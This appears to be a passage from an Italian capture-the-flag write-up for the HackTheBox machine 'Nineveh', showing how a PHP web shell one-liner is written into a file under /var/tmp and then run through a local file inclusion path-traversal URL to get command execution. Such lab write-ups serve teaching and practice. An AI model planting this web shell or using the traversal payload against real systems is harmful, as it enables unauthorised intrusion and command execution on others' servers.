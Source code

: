 

![](../zzz_rev/attachments/ninevh9.png)
Nel parametro Field aggiungiamo il seguente codice e modificare il tipo in TEXT.
```bash
<?php echo system($_REQUEST ["cmd"]); ?>
```

Facciamo clic su crea e vediamo che il file viene creato nella directory /var/tmp.
Ora torniamo alla vulnerabilità LFI ed eseguiamo il nostro codice php.

```bash
http://nineveh.htb/department/manage.php?notes=/ninevehNotes/../../../../var/tmp/hack.php&cmd=ls
```

Abbiamo l'esecuzione del codice! 
